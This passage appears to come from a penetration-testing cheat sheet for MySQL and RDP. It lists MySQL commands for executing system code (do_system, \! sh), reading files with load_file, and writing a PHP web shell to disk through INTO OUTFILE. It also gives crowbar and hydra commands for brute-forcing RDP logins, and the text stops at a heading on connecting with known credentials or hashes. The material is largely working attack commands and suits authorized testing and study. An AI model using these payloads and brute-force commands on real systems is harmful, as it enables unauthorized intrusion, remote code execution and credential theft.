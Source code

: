 ### Connect

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

---

## RDP - 3389

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash
